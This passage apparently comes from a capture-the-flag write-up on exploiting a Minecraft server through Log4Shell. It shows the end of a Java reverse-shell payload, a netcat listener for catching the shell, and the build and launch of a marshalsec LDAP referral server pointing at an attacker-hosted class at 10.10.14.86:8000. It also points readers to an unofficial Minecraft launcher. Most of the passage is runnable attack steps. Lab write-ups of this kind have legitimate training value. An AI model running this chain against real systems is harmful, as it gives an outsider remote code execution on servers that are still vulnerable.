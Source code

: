 ```
        };
        p.destroy();
        s.close();
    }
}
```

Modify the `host` and `port` to match that of your web server.

Compile it using the following command:

```
javac Log4Shell.java
```

Also, set up a Netcat listener as this is where we will get our reverse shell.

```
nc -lnvp 9999
```

## LDAP Referral

Next we'll setup the LDAP referral.

Clone the [marshalsec](https://github.com/mbechler/marshalsec) repo using this command:

```
git clone https://github.com/mbechler/marshalsec.git
```

`cd` into the repo and then run the following command to set up maven:

```
mvn clean package -DskipTests
```

Finally, start the LDAP server.

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.14.86:8000/#Log4jShell"
```

Replace `<address>` and `<port>` with the address and port of your web server.

## Install Minecraft

Finally, launch Minecraft. If you don't own the game, download [TLauncher](https://tlauncher.org/en/)

Download version 1.16.5 as that's the version we detected earlier.

![crafty_04.png](/assets/posts/crafty/crafty_04.png)
